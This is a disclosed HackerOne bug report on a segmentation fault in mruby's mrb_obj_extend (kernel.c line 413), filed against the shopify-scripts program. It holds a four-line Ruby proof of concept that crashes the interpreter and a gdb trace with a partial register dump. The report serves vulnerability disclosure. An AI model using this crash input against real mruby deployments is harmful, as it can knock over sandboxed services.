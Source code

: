 # SIGSEGV - mrb_obj_extend - line:413

## Report Details
- **Report ID**: 197694
- **URL**: https://hackerone.com/reports/197694
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-01-12T01:07:55.248Z
- **Disclosed**: 2017-03-09T01:26:59.033Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC:
-------------------

The following code triggers the bug (attached as test_mrb_obj_extend_413.rb):

	module Test end
	def method_missing(s)extend(Test)end
	def set(v)a.set(0)end
	set(0)

Mirb - Debug:
-------------------

	(gdb) r test_mrb_obj_extend_413.rb 
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	Starting program: /home/x/Desktop/research/test_2/mruby/bin/mirb test_mrb_obj_extend_413.rb
	mirb - Embeddable Interactive Ruby Shell

	 => nil
	 => :method_missing
	 => :set

	Program received signal SIGSEGV, Segmentation fault.
	0x0000000000418e9b in mrb_obj_extend (mrb=0x6ad010, argc=0, argv=0x7529f0, obj=...) at /home/x/Desktop/research/test_2/mruby/src/kernel.c:413
	413	    mrb_funcall(mrb, argv[argc], "extended", 1, obj);
	(gdb) info reg
	rax            0x7529f0	7678448
	rbx            0x0	0
	rcx            0x3	3
	rdx            0x0	0
	rsi            0x6ad1b0	7000496
	rdi            0x6ad010	7000080
	rbp            0x7fffffffc470	0x7fffffffc470
	rsp            0x7fffffffc420	0x7fffffffc420
	r8             0x1	1
	r9             0x6b01b0	7012784
	r10            0x7fff0000000a	140733193388042
	r11            0x7ffff7895770	140737346361200
	r12            0x401ca0	4201632
	r13            0x7fffffffe040	140737488347200
	r14            0x0	0